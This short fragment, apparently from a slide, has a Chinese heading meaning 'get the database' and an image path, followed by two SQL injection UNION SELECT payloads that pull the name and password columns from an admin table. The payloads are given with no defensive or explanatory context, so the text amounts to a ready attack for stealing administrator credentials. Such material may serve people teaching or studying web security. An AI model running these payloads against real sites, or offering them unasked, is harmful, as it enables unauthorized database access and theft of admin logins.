

# 获取数据库
union select 1,2,name,4,5,6 from admin
union select 1,2,pass,4,5,6 from admin